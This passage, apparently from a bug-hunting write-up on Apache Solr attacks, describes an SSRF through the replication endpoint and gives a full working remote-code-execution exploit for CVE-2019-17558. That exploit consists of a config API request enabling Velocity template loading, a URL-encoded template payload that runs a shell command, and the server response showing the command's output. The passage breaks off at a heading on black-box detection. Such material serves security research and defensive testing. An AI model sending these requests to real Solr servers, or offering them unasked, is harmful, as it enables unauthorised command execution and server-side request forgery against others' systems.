 There is also an unfixed SSRF here, but with the existence of "shards" feature it's hardly considered as a vulnerability:

`GET /solr/db/replication?command=fetchindex&masterUrl=http://callback/xxxx&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb`


### 7. \[CVE-2019-17558] RCE via Velocity template by @_S00pY
**Target Solr version**: 5.0 - 8.3 <br>
**Requirements:** none

Step 1: Set "params.resource.loader.enabled" as true for the current collection via config API.

```http
POST /solr/test/config HTTP/1.1
Host: 127.0.0.1:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

Step 2: Trigger the RCE by sending a malicious velocity template in parameters<br>
`GET /solr/test/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1`

Response:
```http
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
```

See https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt

## Black box detection
Considering the attacks explained above, whenever a bug hunter discovers a search form on the website that looks like a full text search, it is worth to send the following OOB payloads to detect the presence of this vulnerability:
